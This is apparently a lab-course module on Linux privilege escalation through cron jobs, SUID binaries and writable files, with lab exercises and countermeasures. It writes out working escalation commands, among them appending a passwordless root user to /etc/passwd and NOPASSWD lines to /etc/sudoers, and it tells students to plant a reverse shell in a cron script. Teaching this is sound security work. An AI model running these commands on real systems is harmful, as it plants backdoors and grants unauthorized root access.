 # Missconfiguration
## Cron Jobs
Cron is a program that allows users of Unix systems to automatically execute scripts, commands or software at a pre-specified date and time, or on a pre-defined cycle.
Cron jobs, if not configured properly, can be exploited to gain root privileges.

**How Does Cron Work?** 

The behavior of the Cron utility can be fully customized. You can configure the behavior of Cron by editing files called “crontabs”. Unix keeps different copies of crontabs for each user. You can edit your own user’s crontab by running:
````
crontab -e
````
You can also list the current cronjobs for your user by running:

````
crontab -l
````
In Linux systems, the location for the system-wide crontab is /etc/crontab. Cron will run as the root user when executing scripts and commands in this file.

Files in /etc/cron.d are treated the same way as /etc/crontab. They are effectively “crontab snippets”. Their benefit is that they can be added or removed without modifying the central /etc/crontab file.

````
msfadmin@metasploitable:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
````

Each line starting with * or some number is considered as a cron job or task. It is the magic line that cron service will execute.


**Cron enumeration :**
Questions you need to ask yourself:  
1. Are there scripts or binary files in cron jobs that are writable?
2. Can we write to the cron file itself.
3. Is the cron.d directory writable?


To view root’s cron jobs.
````
crontab -l
````

View a user's cron jobs.
````
crontab -u username -l
````

View all the daily cron jobs.
````
ls -la /etc/cron.daily/
````

View a specific daily cron job.
````
less /etc/cron.daily/logrotate
````

You can also list the current cronjobs for your user by running:
````
crontab -l
````

If Cron tasks have been created with elevated privileges, you may not be able to see the created tasks. 
To solve this problem you can use [pspy](https://github.com/DominicBreuker/pspy)

pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.

````
./pspy32 

2022/08/02 05:30:01 CMD: UID=0    PID=9127   | 
2022/08/02 05:30:01 CMD: UID=256  PID=9126   | bash /var/www/backup.sh 
2022/08/02 05:30:01 CMD: UID=32   PID=9125   | /USR/SBIN/CRON 
````

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Download pspy32 in a folder ``/home/alice/your-name/``.
    > Your command

- For pspy32 to work, you must give it execution rights. 
    > Your answer

- Wait 5 minutes, you can go get a coffee.

- Is there a process to launch if so, which one?
    > Your answer

- What is the file that is executed?
    > Your answer 

- Do you have write permissions on this file?
    > Your answer 

- Do a test by overwriting the file with a command line to start a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

- Wait 5 minutes, you can check your email.

AND BIM!

---- 

**Countermeasures :**
If your system uses Cron to automate tasks, make sure that none of the scripts that you run through crontab are editable by unprivileged users, and make sure that your Cron scripts are secure!

NEVER EXECUTE COMMANDS WITH sudo or root user and avoid using SUID binaries in the job.

## SUID/SGID
SUID, which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges whenever a low-privileged user runs the program.

````
alice@metasploitable:~$ ls -la /bin | grep rwsr
-rwsr-xr--  1 root fuse  20056 2008-02-26 13:25 fusermount
-rwsr-xr-x  1 root root  81368 2008-04-14 23:36 mount
-rwsr-xr-x  1 root root  30856 2007-12-10 12:33 ping
-rwsr-xr-x  1 root root  26684 2007-12-10 12:33 ping6
-rwsr-xr-x  1 root root  25540 2008-04-02 21:08 su
-rwsr-xr-x  1 root root  63584 2008-04-14 23:36 umount
````
SUID is a feature that, when used correctly, actually improves Linux security. The problem is that administrators can unknowingly introduce dangerous SUID configurations when installing third-party applications or making logical configuration changes.

Many system administrators don't know where to set the SUID bit and where not to. The SUID bit should not be set, especially on a file editor, because an attacker can overwrite all files on the system.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Display the executables whose SUID bit is set.
    > Your command

- [Look at the gtfobins site to see which executable would give you root privileges](https://gtfobins.github.io/)
    > Your answer

- Execute de the command.
- What is the executable that is exploitable and has the possibility to configure the suid ? 
    > Your answer

And BIM !
<details>
  <summary>Hints</summary>
  The name of the executable starts with ``n``
</details>

---- 

**Countermeasures :**
The SUID bit should not be set on a program that allows you to escape to the shell.
You should never set the SUID bit on a file editor/compiler/interpreter because an attacker can easily read/overwrite all files on the system.

## Interesting Files writable
List world writable files on the system.
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
**Writable /etc/passwd**

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

**Writable /etc/sudoers**

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
